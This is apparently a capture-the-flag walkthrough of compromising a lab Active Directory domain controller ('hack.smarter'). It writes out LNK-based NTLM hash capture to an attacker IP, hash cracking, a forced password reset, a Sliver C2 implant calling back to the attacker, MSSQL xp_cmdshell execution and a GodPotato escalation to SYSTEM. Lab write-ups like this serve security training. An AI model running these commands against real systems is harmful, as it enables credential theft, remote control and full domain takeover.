

# ShareThePain

## Information

I have reset the machine mid-way, so You might see the IP 10.1.110.55, which means that these are the results I gather after the reset. Forgive me for the inconsistency.

## Scope

> Objective: You're a penetration tester on the Hack Smarter Red Team. Your mission is to infiltrate and seize control of the client's entire Active Directory environment. This isn't just a test; it's a full-scale assault to expose and exploit every vulnerability.

Initial Access: For this engagement, you've been granted direct network access to the client's network. The door is open, but you're starting with zero credentials. From here, every move counts.

Execution: Your objective is simple but demanding: enumerate, exploit, and own. Your ultimate goal is not just to get in, but to achieve a full compromise, elevating your privileges until you hold the keys to the entire domain.
> 

## Port Enumeration

I marked the given IP (10.1.227.95) as `sharethepain.hsm` in `/etc/hosts`

We can first run a port scan using RustScan and Nmap

```bash
└─$ rustscan -a sharethepain.hsm --ulimit 5000 -- -A -oN nmap.log
...
Open 10.1.227.95:53
Open 10.1.227.95:88
Open 10.1.227.95:139
Open 10.1.227.95:135
Open 10.1.227.95:389
Open 10.1.227.95:445
Open 10.1.227.95:464
Open 10.1.227.95:593
Open 10.1.227.95:3268
Open 10.1.227.95:3389
Open 10.1.227.95:5985
Open 10.1.227.95:9389
Open 10.1.227.95:47001
Open 10.1.227.95:49665
Open 10.1.227.95:49664
Open 10.1.227.95:49668
Open 10.1.227.95:49671
Open 10.1.227.95:49674
Open 10.1.227.95:49666
Open 10.1.227.95:49677
Open 10.1.227.95:49672
Open 10.1.227.95:49680
Open 10.1.227.95:49713
Open 10.1.227.95:49725
...
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-07-01 02:13:12Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hack.smarter, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: hack.smarter, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.hack.smarter
| Issuer: commonName=DC01.hack.smarter
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-06-30T02:11:07
| Not valid after:  2026-12-30T02:11:07
| MD5:     a483 015c eb69 cda2 c55a 34c3 3fcf f6b3
| SHA-1:   a5ed 6a82 4846 6ae8 ad78 64aa ac21 9189 44a4 e8b2
| SHA-256: 8ed0 6eca 2edc 614a d0f6 a7d7 d3b5 7158 1a89 32bb 3e84 95e6 2fd5 9c68 ca5c 8112
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQQBWtasS/aLJM4PUCtd7ftTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmhhY2suc21hcnRlcjAeFw0yNjA2MzAwMjExMDdaFw0y
| NjEyMzAwMjExMDdaMBwxGjAYBgNVBAMTEURDMDEuaGFjay5zbWFydGVyMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1D4gNuQuGr+iwd3EcRYYU8VozIgV
| HE8PZGnOW4inJwTPYGtp8A+8BUrAV1S8BbaWNmrmZuSgtn4x0DY8gHyA1ucoRkHD
| jUQJujafp7X3aKJZgnM/2Tl/aj40SCXEBSslAd+IEyZ++4sqExzjGJtRDGaKXl12
| GaMrcZMOJ2ir4IHgaAK753Z8NIYzrSj1CN3s8TjnRJehDulsTMfiR1DzTy9TYpKf
| xWPFHosskzxEHsSELVozLo0/wppMkFh4FDgb5L4hMcyqx6JQiE0yyA5mLMsVC4lT
| GvON+axAHC+l1vUCz1ZNTlMpRL/sii/o6OVJSobcqrvo+qYEz8hZsMj2yQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAJwbnY+dpSAihqvevruebaPS5AeTyB/LywqzzS2gjsgC90c0eF5X
| pAM7oeI3gv47+c5FqutYuaujgr6lqoTNW3jJLZMsDjWCIdgPaYnRAUiHB6Jh7Kvl
| HAGK1t/yLBISzEVsjef9Da//htwSDw0qn0ZqD9+8P7ChOfxaKFr4z7gU8b1qYcag
| 0H9AMd9Xe8kFTr7pim3q67DMU+QqscL7EEbqAcrKLK/+qhEpK/rtMvWFf0P250DL
| nCWQuGc3FGe/vUu7rdTUYhGY2ylkUYmvPBeGen/bzBULUQ0ZkObH3W59e8qeYOs1
| orlV5QwxolYb/P3LNXJ3dwj7PbfojrwZm8U=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: HACK
|   NetBIOS_Domain_Name: HACK
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hack.smarter
|   DNS_Computer_Name: DC01.hack.smarter
|   DNS_Tree_Name: hack.smarter
|   Product_Version: 10.0.20348
|_  System_Time: 2026-07-01T02:14:20+00:00
|_ssl-date: 2026-07-01T02:14:29+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
47001/tcp open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49671/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49672/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49674/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49680/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49725/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2016 (94%), Microsoft Windows Server 2022 (93%), Microsoft Windows 11 24H2 - 25H2 (93%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (90%), Microsoft Windows 11 24H2 (89%), Microsoft Windows Server 2019 (88%), Microsoft Windows Server 2012 (88%), Microsoft Windows 10 1703 (87%), Microsoft Windows 10 1511 (86%)
No exact OS matches for host (test conditions non-ideal).
```

It is a domain controller for sure, we can deduce that from:

- Port 88 (Kerberos)
- Port 53 (DNS)
- Port 389 (LDAP)

We also know that the DC is called as `DC01.hack.smarter`, with the domain `hack.smarter`

## Writable SMB Share

When I list using smbclient, I found that there is a SMB Share called `Share`

```bash
└─$ smbclient -L sharethepain.hsm -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Share           Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to sharethepain.hsm failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

```

It is empty

```bash
└─$ smbclient //sharethepain.hsm/Share -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 16 06:59:57 2025
  ..                                DHS        0  Sat Sep  6 11:46:21 2025

```

However, we can write to the Share

```bash
smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kB/s) (average 0.0 kB/s)
smb: \> ls
  .                                   D        0  Wed Jul  1 10:32:58 2026
  ..                                DHS        0  Sat Sep  6 11:46:21 2025
  test.txt                            A        5  Wed Jul  1 10:32:58 2026
```

Alternatively, we can confirm using `nxc smb` with the `--shares` flag

```bash
└─$ nxc smb 10.1.227.95 -u 'guest' -p '' --shares                                                                                                                                                                                           
SMB         10.1.227.95     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.227.95     445    DC01             [+] hack.smarter\guest: 
SMB         10.1.227.95     445    DC01             [*] Enumerated shares
SMB         10.1.227.95     445    DC01             Share           Permissions            Remark
SMB         10.1.227.95     445    DC01             -----           -----------            ------
SMB         10.1.227.95     445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.227.95     445    DC01             C$                                     Default share
SMB         10.1.227.95     445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.227.95     445    DC01             NETLOGON                               Logon server share 
SMB         10.1.227.95     445    DC01             Share           READ,WRITE             
SMB         10.1.227.95     445    DC01             SYSVOL                                 Logon server share 
```

## Compromising `bob.ross`

For a writable share, we can try to place a malicious link (`.lnk`) file. When a user tries to access to the Share, the link file will be loaded, and we can force it to return the NTLMv2 hash.

To achieve that, we can use the slinky module. Use `-o` to specify the following options:

- `Name=Test` → the file will be called as Test
- `SHARES=Share` → Specify the writable share
- `SERVER=10.200.68.40` → Specify the attacker machine, so we can receive the hash

Notice that although the Share itself does not require any authentication, we still need to login as a guest with an empty password, or we will see the following error:

```bash
└─$ nxc smb sharethepain.hsm -M slinky -o NAME=Test SHARES=Share SERVER=10.200.68.40
SMB         10.1.227.95     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.227.95     445    DC01             [-] Error enumerating shares: STATUS_USER_SESSION_DELETED
```

Use the `-u` and `-p` to specify the username and password respectively

```bash
└─$ nxc smb sharethepain.hsm -u guest -p '' -M slinky -o NAME=Test6 SHARES=Share SERVER=10.200.68.40                                                                                                                                        
SMB         10.1.227.95     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.227.95     445    DC01             [+] hack.smarter\guest: 
SMB         10.1.227.95     445    DC01             [*] Enumerated shares
SMB         10.1.227.95     445    DC01             Share           Permissions            Remark
SMB         10.1.227.95     445    DC01             -----           -----------            ------
SMB         10.1.227.95     445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.227.95     445    DC01             C$                                     Default share
SMB         10.1.227.95     445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.227.95     445    DC01             NETLOGON                               Logon server share 
SMB         10.1.227.95     445    DC01             Share           READ,WRITE             
SMB         10.1.227.95     445    DC01             SYSVOL                                 Logon server share 
SLINKY      10.1.227.95     445    DC01             [+] Found writable share: Share
SLINKY      10.1.227.95     445    DC01             [+] Created LNK file on the Share share
```

At the mean time, we need to listen to the `tun0` interface using responder

```bash
└─$ sudo responder -I tun0 -v                                                                                                                                                                                                               
...

[+] Listening for events...                                                                                                                                                                                                                 

[SMB] NTLMv2-SSP Client   : 10.1.227.95
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash     : bob.ross::HACK:3e2d65c167a45934:3716A7392FC2FF587BB66237D06491C9:010100000000000080B77A8C4C09DD0131A9FBFD13ACF2640000000002000800510038005200410001001E00570049004E002D003500450058004400490051005400350050004B00560004003400570049004E002D003500450058004400490051005400350050004B0056002E0051003800520041002E004C004F00430041004C000300140051003800520041002E004C004F00430041004C000500140051003800520041002E004C004F00430041004C000700080080B77A8C4C09DD01060004000200000008003000300000000000000001000000002000002BBBEF1D3734E41066DFE9DE93C1CC14831E8D5B4D26728253A09B5773B0D4C40A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E00360038002E00340030000000000000000000                                                                                                                                                                                                                           
[SMB] NTLMv2-SSP Client   : 10.1.227.95
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash     : bob.ross::HACK:822a2e4eb3f4cfe8:A98ABEB39E181DFB71D194F0D8B43B61:010100000000000080B77A8C4C09DD01B31F8382CE26CA0D0000000002000800510038005200410001001E00570049004E002D003500450058004400490051005400350050004B00560004003400570049004E002D003500450058004400490051005400350050004B0056002E0051003800520041002E004C004F00430041004C000300140051003800520041002E004C004F00430041004C000500140051003800520041002E004C004F00430041004C000700080080B77A8C4C09DD01060004000200000008003000300000000000000001000000002000002BBBEF1D3734E41066DFE9DE93C1CC14831E8D5B4D26728253A09B5773B0D4C40A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E00360038002E00340030000000000000000000                                                                                                                                                                                                                           
[SMB] NTLMv2-SSP Client   : 10.1.227.95
[SMB] NTLMv2-SSP Username : HACK\bob.ross
[SMB] NTLMv2-SSP Hash     : bob.ross::HACK:07c4eef26b4afb52:314D2FD7DA767C9821CA9BE497226410:010100000000000080B77A8C4C09DD018312116ACD13B45A0000000002000800510038005200410001001E00570049004E002D003500450058004400490051005400350050004B00560004003400570049004E002D003500450058004400490051005400350050004B0056002E0051003800520041002E004C004F00430041004C000300140051003800520041002E004C004F00430041004C000500140051003800520041002E004C004F00430041004C000700080080B77A8C4C09DD01060004000200000008003000300000000000000001000000002000002BBBEF1D3734E41066DFE9DE93C1CC14831E8D5B4D26728253A09B5773B0D4C40A001000000000000000000000000000000000000900220063006900660073002F00310030002E003200300030002E00360038002E00340030000000000000000000    
```

Capture the entire hash and use hashcat to crack it

```bash
└─$ hashcat bob_hash.txt /usr/share/wordlists/rockyou.txt -m 5600                                                                                                                                                                          
hashcat (v7.1.2) starting
...
BOB.ROSS::HACK:aae1c822d76bd09c:e0247287dccde9dfd7ca8bdb16f1328e:010100000000000080b77a8c4c09dd0126ef6fd9025e1aef0000000002000800510038005200410001001e00570049004e002d003500450058004400490051005400350050004b00560004003400570049004e002d003500450058004400490051005400350050004b0056002e0051003800520041002e004c004f00430041004c000300140051003800520041002e004c004f00430041004c000500140051003800520041002e004c004f00430041004c000700080080b77a8c4c09dd01060004000200000008003000300000000000000001000000002000002bbbef1d3734e41066dfe9de93c1cc14831e8d5b4d26728253a09b5773b0d4c40a001000000000000000000000000000000000000900220063006900660073002f00310030002e003200300030002e00360038002e00340030000000000000000000:137Password123!@#
```

With this, we have compromise `bob.ross`!

```bash
bob.ross:137Password123!@#
```

## BloodHound

With one compromised user, we can finally collect loots for BloodHound. To begin, we ensure that the `bob.ross` account is really usable

```bash
└─$ nxc smb sharethepain.hsm -u bob.ross -p '137Password123!@#' --shares
SMB         10.1.227.95     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hack.smarter) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.227.95     445    DC01             [+] hack.smarter\bob.ross:137Password123!@# 
SMB         10.1.227.95     445    DC01             [*] Enumerated shares
SMB         10.1.227.95     445    DC01             Share           Permissions            Remark
SMB         10.1.227.95     445    DC01             -----           -----------            ------
SMB         10.1.227.95     445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.227.95     445    DC01             C$                                     Default share
SMB         10.1.227.95     445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.227.95     445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.227.95     445    DC01             Share           READ,WRITE             
SMB         10.1.227.95     445    DC01             SYSVOL          READ                   Logon server share 
```

We can then collect the loots (don’t forget the `--dns-server` flag)

```bash
└─$ nxc ldap DC01.hack.smarter -u bob.ross -p '137Password123!@#' --bloodhound --collection all --dns-server 10.1.227.95
LDAP        10.1.227.95     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hack.smarter) (signing:None) (channel binding:No TLS cert) 
LDAP        10.1.227.95     389    DC01             [+] hack.smarter\bob.ross:137Password123!@# 
LDAP        10.1.227.95     389    DC01             Resolved collection methods: acl, adcs, container, dcom, group, localadmin, loggedon, objectprops, psremote, rdp, session, trusts
LDAP        10.1.227.95     389    DC01             Excluded collection methods: 
LDAP        10.1.227.95     389    DC01             Bloodhound data collection completed in 0M 52S
LDAP        10.1.227.95     389    DC01             Collecting ADCS data (CertiHound)...
LDAP        10.1.227.95     389    DC01             Found 0 certificate templates
LDAP        10.1.227.95     389    DC01             Found 0 Enterprise CAs
LDAP        10.1.227.95     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.227.95_2026-07-01_113633_bloodhound.zip
```

With the generated zip file, we can parse it to Bloodhound (use `sudo bloodhound-cli up` to spin it up).

Viewing the below graph, we know that `bob.ross` have GenericAll privileges to `alice.wonderland`, meaning we can compromise that account easily.



The `alice.wonderland` account is also a member of Remote Management Users, meaning we can use `evil-winrm` to have remote access.


## Compromising `alice.wonderland`

To compromise the `alice.wonderland`, we can follow bloodhound’s suggestion: Directly change the password.

```bash
└─$ net rpc password "alice.wonderland" "Test1234!" -U 'hack.smarter/bob.ross%137Password123!@#' -S dc01.hack.smarter

```

It should have no complains nor output.

Then we can login using `evil-winrm`

```bash
└─$ evil-winrm -i dc01.hack.smarter -u alice.wonderland -p Test1234!
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Sadly the above privileges can not bring us far, but none the less, we can get the user flag first :D

```bash
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> ls
*Evil-WinRM* PS C:\Users\alice.wonderland\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\alice.wonderland\Desktop> ls

    Directory: C:\Users\alice.wonderland\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/3/2025   2:07 PM             54 user.txt

*Evil-WinRM* PS C:\Users\alice.wonderland\Desktop> cat user.txt
```

## Potential Attack Path?

I realize there is actually a user called  `tyler.ramsey`

```bash
*Evil-WinRM* PS C:\Users\alice.wonderland\Desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            alice.wonderland         bob.ross
Guest                    krbtgt                   tyler.ramsey
The command completed with one or more errors.

```

Tyler is a type 0 account, with ridiculous outbound controls


Maybe we can try to compromise it?

## Interacting with MSSQL using Sliver C2

After a very long time, I still haven’t made any progress. During the struggle, I found the SQL2019 directory, but I have no idea how I can proceed.

```bash
*Evil-WinRM* PS C:\> ls

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---          9/5/2025   8:34 PM                Program Files
d-----          9/3/2025   2:06 PM                Program Files (x86)
d-----         6/30/2026   8:28 PM                Share
d-----          9/3/2025   2:06 PM                SQL2019
d-----          9/3/2025   2:01 PM                Temp
d-r---          9/3/2025   2:54 PM                Users
d-----          9/5/2025   8:46 PM                Windows

```

Using netstat, we can find that port 1433 is opened … locally.

```bash
*Evil-WinRM* PS C:\> netstat -ano|findstr 127.0.0.1
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       3416
  TCP    127.0.0.1:1433         0.0.0.0:0              LISTENING       4192
  TCP    127.0.0.1:56517        0.0.0.0:0              LISTENING       4192
  UDP    127.0.0.1:53           *:*                                    3416
  UDP    127.0.0.1:52010        127.0.0.1:52010                        3292
  UDP    127.0.0.1:52012        127.0.0.1:52012                        1488
  UDP    127.0.0.1:54300        127.0.0.1:54300                        3432
  UDP    127.0.0.1:54301        127.0.0.1:54301                        3416
  UDP    127.0.0.1:54366        127.0.0.1:54366                        3096
  UDP    127.0.0.1:54987        127.0.0.1:54987                        1516
  UDP    127.0.0.1:62510        127.0.0.1:62510                        3352
```

To facilitate the exploitation, we can use sliver to establish a connection. 

To be more specific, we want to access MSSQL by letting the machine establish an outbound connection, thus bypassing the firewall, and Sliver will craft a EXE to do that.

```bash
└─$ sliver 
...

[127.0.0.1] sliver > generate --mtls 10.200.68.40:443 --os windows --save /home/kali/hacksmarter/images/legit.exe

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m15s
[*] Implant saved to /home/kali/hacksmarter/images/legit.exe
```

In the above, we:

- Specify we want mtls (mutual TLS)
- Connect back to port 443 (TLS)
- Specify the OS

Then use `mtls` with the `-L` flag specify the Listener IP and `-l` for the listening port

```bash
[127.0.0.1] sliver > mtls -L 10.200.68.40 -l 443

[*] Starting mTLS listener ...

[*] Successfully started job #2        
```

You should be able to check the job

```bash
[127.0.0.1] sliver > jobs

 ID   Name   Protocol   Port   Domains 
==== ====== ========== ====== =========
 2    mtls   tcp        443    
```

When we launch the legit.exe, Sliver should be able to catch that session.

```bash
[*] Session febdd793 SOFT_DUMP-TRUCK - 10.1.227.95:50028 (DC01) - windows/amd64 - Wed, 01 Jul 2026 16:40:43 HKT

[127.0.0.1] sliver > sessions

 ID         Name              Transport   Remote Address      Hostname   Username                Process (PID)                                        Integrity   Operating System   Locale   Last Message                             Health  
========== ================= =========== =================== ========== ======================= ==================================================== =========== ================== ======== ======================================== =========
 febdd793   SOFT_DUMP-TRUCK   mtls        10.1.227.95:50028   DC01       HACK\alice.wonderland   C:\Users\alice.wonderland\Desktop\legit.exe (6404)   -           windows/amd64      en-US    Wed Jul  1 16:40:43 HKT 2026 (56s ago)   [ALIVE]                                                                                                                                                                                                                                          
```

Use the `-i` flag to interact with that session

```bash
[127.0.0.1] sliver > sessions -i febdd793

[*] Active session SOFT_DUMP-TRUCK (febdd793)

[127.0.0.1] sliver (SOFT_DUMP-TRUCK) > whoami

Logon ID: HACK\alice.wonderland
[*] Current Token ID: HACK\alice.wonderland
```

However, what we want is to access to the MSSQL from the outside.

To achieve that, we need a SOCKS proxy to help us route the traffic to the internal network.

```bash
[127.0.0.1] sliver (SOFT_DUMP-TRUCK) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081  
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

You might need to add this to the configuration file (`/etc/proxychains4.conf`) so that we can use `proxychains` in the next command.

```bash
socks5  127.0.0.1 1081
```

Then, we can use `impacket-mssqlclient` to interact with the help of `proxychains`.

```bash
└─$ proxychains -q impacket-mssqlclient sharethepain.hsm/alice.wonderland:'Test1234!'@127.0.0.1 -windows-auth                                                                                                                               
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies                                                                                                                                                                  
...
SQL (HACK\alice.wonderland  dbo@master)>
```

To execute commands, you need to first enable `xp_cmdshell`

```bash
SQL (HACK\alice.wonderland  dbo@master)> enable_xp_cmdshell
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```

Then we can run commands by adding `xp_cmdshell` at the beginning.

```bash
SQL (HACK\alice.wonderland  dbo@master)> xp_cmdshell whoami
output                        
---------------------------   
nt service\mssql$sqlexpress   
NULL                                                    
```

## Potato Attack

In the above, we have successfully execute `whoami`.

Notice you might need to repeat the above process a few times, especially if you try to execute `whoami /priv`, as it might break the connection.

```bash
SQL (HACK\alice.wonderland  dbo@master)> xp_cmdshell whoami /priv
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               
PRIVILEGES INFORMATION                                                             
----------------------                                                             
NULL                                                                               
Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
NULL              
```

The `SeImpersonatePrivilege` will allow us to escalate our privileges using the [Potato Attack](http://securelayer7.net/learn/privilege-escalation/what-is-seimpersonateprivilege)

Back to `evil-winrm` first. We can first copy the `legit.exe` to Temp, and then get the GodPotato exe from [Github](https://github.com/BeichenDream/GodPotato/releases) directly.

```bash
*Evil-WinRM* PS C:\Temp> ls 

    Directory: C:\Temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          9/3/2025   2:01 PM        6379936 SQLEXPRESS.exe

*Evil-WinRM* PS C:\Temp> cp C:\Users\alice.wonderland\Documents\legit.exe .
*Evil-WinRM* PS C:\Temp> wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -o god.exe
*Evil-WinRM* PS C:\Temp> ls

    Directory: C:\Temp

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2026   7:25 AM          57344 god.exe
-a----          7/1/2026   5:08 AM       35401728 legit.exe
-a----          9/3/2025   2:01 PM        6379936 SQLEXPRESS.exe
```

In `impacket-mssqlclient`, execute `legit.exe`

```bash
SQL (HACK\alice.wonderland  dbo@master)> xp_cmdshell C:\Temp\legit.exe
```

Then go to Silver, you should see that there is a new session 

```bash
[*] Session 0e0a07b4 HOMELY_STANDOFF - 10.1.110.55:49993 (DC01) - windows/amd64 - Wed, 01 Jul 2026 22:29:59 HKT

[127.0.0.1] sliver (HOMELY_STANDOFF) > sessions

 ID         Name              Transport   Remote Address      Hostname   Username                      Process (PID)                                          Integrity   Operating System   Locale   Last Message                               Health  
========== ================= =========== =================== ========== ============================= ====================================================== =========== ================== ======== ========================================== =========
 0627d070   HOMELY_STANDOFF   mtls        10.1.110.55:49891   DC01       HACK\alice.wonderland         C:\Users\alice.wonderland\Documents\legit.exe (3476)   -           windows/amd64      en-US    Wed Jul  1 22:29:43 HKT 2026 (1m27s ago)   [ALIVE] 
 0e0a07b4   HOMELY_STANDOFF   mtls        10.1.110.55:49993   DC01       NT Service\MSSQL$SQLEXPRESS   C:\Temp\legit.exe (5240)                               -           windows/amd64      en-US    Wed Jul  1 22:29:59 HKT 2026 (1m11s ago)   [ALIVE] 
```

We can even open up a shell inside the session.

```bash
[127.0.0.1] sliver (HOMELY_STANDOFF) > sessions -i 0e0a07b4 

[*] Active session HOMELY_STANDOFF (0e0a07b4)

[127.0.0.1] sliver (HOMELY_STANDOFF) > shell

[*] Shell management: `shell ls`, `shell attach <id>`
[*] Escape: press Ctrl-] to return to the Sliver client
[*] Opening shell tunnel ...

[*] Started remote shell [1] with pid 4108

PS C:\Windows\system32> 
```

the GodPotato exploit allow us to impersonate as `NT AUTHORITY\SYSTEM`

```bash
PS C:\Temp> ./god.exe -cmd "cmd /c whoami"
...
nt authority\system
```

### Directly execute commands

With that, you can read the flag directly

```bash
PS C:\Temp> ./god.exe -cmd "cmd /c dir C:\Users\Administrator\Desktop"
...
 Directory of C:\Users\Administrator\Desktop

09/06/2025  08:52 PM    <DIR>          .
09/03/2025  07:47 PM    <DIR>          ..
09/02/2025  06:46 PM             2,308 Microsoft Edge.lnk
09/03/2025  02:10 PM               126 root.txt
               2 File(s)          2,434 bytes
               2 Dir(s)  111,543,848,960 bytes free
```

### New Session

Alternatively, you can use god potato to execute the legit.exe again

```bash
PS C:\Temp> .\god.exe -cmd "cmd /c C:\Temp\legit.exe"
.\god.exe -cmd "cmd /c C:\Temp\legit.exe"
[*] CombaseModule: 0x140728899010560
[*] DispatchTable: 0x140728901601144
[*] UseProtseqFunction: 0x140728900893488
[*] UseProtseqFunctionParamCount: 6
